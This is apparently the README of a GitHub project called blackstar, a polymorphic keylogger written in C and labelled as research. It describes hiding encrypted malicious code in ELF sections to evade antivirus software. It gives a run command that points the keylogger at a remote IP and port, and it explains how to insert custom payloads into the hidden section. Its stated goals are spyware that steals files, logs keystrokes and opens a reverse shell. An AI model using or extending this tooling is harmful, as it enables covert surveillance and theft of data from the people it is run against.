 # blackstar

blackstar is a Polymorphic Keylogger written in C, for research purposes only.
It is based on the [whitecomet project](https://github.com/PoCInnovation/Whitecomet-Research).

## Introduction

The goal of the project was to build some knowledge regarding obfuscation,
 as well as Advanced Unix Programming. To achieve that, I looked at how the
 Whitecomet project managed to work around anti-viruses, and I implemented it in
 a [keylogger](github.com/bogdzn/keylogger) I had written before.

### how does whitecomet work ?

To hide malicious code, Whitecomet exploits sections of an ELF binary. It has one
 section for the malicious code, one for the decryption key, and one for a boolean,
 set if the code is encrypted.  Once started for the first time, the program will
 read itself and decrypt the code, then execute it. In WhiteComet's case, the
 malicious code was a [reverse-shell](https://fr.wikipedia.org/wiki/Reverse_shell).

### What are our objectives, then ?

First, we want to understand how to create and manipulate section to change our
binary. Then, we will find a better way to hide our code, because the current
method has some limitations.

### WhiteComet's AV-evasion limitations

Although it is a really cool project, there are still limitiations for the
current approach Whitecomet uses. The first one is that when inspecting the
binary, the sections are one of the first things a researcher looks at. Second is
 that it requires a setup that is not very easy to modify. You must get the exact
 size of your section, so that you decrypt a fixed length. Third is that you still
leave a lot of information present in the binary, that make it easier for somebody
to get clues about what your program does.
We hope to tackle at least some of these problems.

## How do I build the project ?

```bash
make

# run with admin privileges
./blackstar -i 192.168.1.69 -p 6969

# clean the repo like so
make fclean
```

## Can I add my own payload instead of using the one that is present ?

Yes, you can ! But you will need to change the `ELF_FUNC_SIZE` according to your
section's size. To check your section size, compile the program without the UPX
packer, and call `size -d -A blackstar` to get the size of all section. You will
need to find the section named as `ELF_CODE` (by default `.banshee`).

To add some code in the section, create a normal C function and add the
`__attribute__((section(ELF_CODE)))` in front of the declaration. You can find
an example in `payload.c`.

## Current goals

- [ ] Create a usable and working spyware, reading and transmitting important files,
    logging keystrokes, and setting up a revshell
- [ ] Improve the obfuscation method to use the less amount of section possible
- [ ] Find a way to easely find the address of a value in the binary so that we
can just hardcode it and not depend on sections
- [ ] add python webserver to get a nice web interface with all the retrieved data

